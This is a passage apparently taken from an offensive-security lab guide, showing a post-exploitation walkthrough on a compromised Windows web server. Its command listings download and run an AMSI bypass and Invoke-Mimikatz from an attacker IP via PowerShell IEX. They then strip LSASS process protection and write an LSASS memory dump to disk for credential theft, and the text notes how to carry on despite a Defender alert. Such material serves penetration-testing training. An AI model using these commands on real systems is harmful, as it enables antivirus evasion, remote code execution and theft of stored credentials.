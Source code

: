 ```
C:\Windows\system32> powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/amsi.txt') | IEX
(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/amsi.txt') | IEX

PS C:\Windows\system32> (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/mimikatz.txt') | IEX
(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/mimikatz.txt') | IEX

PS C:\Windows\system32> Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""
Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""
Hostname: web01.evil.com / authority\system-authority\system

  .#####.   mimikatz 2.2.0 (x64) #19041 May 20 2020 14:57:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 564 -> 00/00 [0-0-0]

PS C:\Windows\system32> 
C:\Windows\system32>
```

> Listing 34 - Turning off PPL with Invoke-Mimikatz

To invoke the !processprotect command with the desired arguments, we must use quotes on the command line for the -Command parameter, but the command itself must also be in quotes, which means we must escape the inner quotes with a back tick (`) character.

When the command is executed, the driver successfully turns off LSASS protection. Just after that, Windows Defender detects the execution of Mimikatz and shuts down the PowerShell process.

While an antivirus alert has been generated, we have managed to turn off the PPL protection and we can now interact with LSASS. Instead of using Mimikatz for this, we can use our custom application that calls the Win32 _MiniDumpWriteDump_ API.

Our code will perform a memory dump of the LSASS process and write the dump to lsass.dmp in C:\Windows\tasks.

```
C:\Windows\system32> c:\inetpub\wwwroot\upload\dump.exe
c:\inetpub\wwwroot\upload\dump.exe
LSASS PID is: 564

C:\Windows\system32> dir c:\windows\tasks
dir c:\windows\tasks
 Volume in drive C has no label.
 Volume Serial Number is EEC0-882C

 Directory of c:\windows\tasks

06/26/2020  12:54 AM    <DIR>          .
06/26/2020  12:54 AM    <DIR>          ..
06/26/2020  12:54 AM        48,216,094 lsass.dmp
               1 File(s)     48,216,094 bytes
               2 Dir(s)   5,581,467,648 bytes free
```